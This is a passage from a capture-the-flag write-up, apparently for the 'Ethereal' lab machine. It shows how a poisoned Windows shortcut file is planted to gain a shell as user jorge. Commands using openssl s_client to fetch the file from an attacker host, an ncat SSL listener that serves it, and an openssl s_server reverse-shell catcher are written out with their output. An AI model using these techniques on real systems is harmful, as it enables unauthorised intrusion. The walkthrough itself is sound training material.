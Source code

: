 Now I want to get the poisoned lnk file to target. I'll kill the output
connection I currently have on port 136. I can still issue commands to
port 73, I just won't see the output. Then I can serve the link file
with `ncat`, and then use `openssl` to get upload the file. I'll issue
this command into the port 73 terminal:



    c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:136 > c:\users\public\desktop\shortcuts\lnk.lnk



I'll serve the file with `ncat`, and I get a connection back on port 136
to get the file:



    root@kali# ncat --ssl --send-only --ssl-key key.pem --ssl-cert cert.pem  -lvp 136 < vs-mod.lnk
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::136
    Ncat: Listening on 0.0.0.0:136
    Ncat: Connection from 10.10.10.106.
    Ncat: Connection from 10.10.10.106:49674.



Now I'll issue the command to copy the poison lnk to the expected name:



    copy /Y lnk.lnk "Visual Studio 2017.lnk"



Then I'll quickly kill both listeners and restart them with `openssl`.

### Shell

Within a few minutes, I have a shell as jorge, in two windows, just like
with alan:



    root@kali# openssl s_server -quiet -key key.pem -cert cert.pem  -port 136
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.

    C:\Users\jorge\Documents>whoami
    ethereal\jorge



And from there, I can get `user.txt`:



    C:\Users\jorge\Desktop>type user.txt
    2b9a4ca0...



I can also see the script that is running as jorge to click on the lnk.
It starts a loop over sleeping for 5 seconds (via `ping`, since there's
no good sleep function in cmd), then running the lnk file. Then it
sleeps another 5 seconds, then replaced the link with a clean copy. It
sleeps another 50 seconds, and then kills `devenv.exe`, so that when the
clean lnk is there, there aren't tons of processes running.
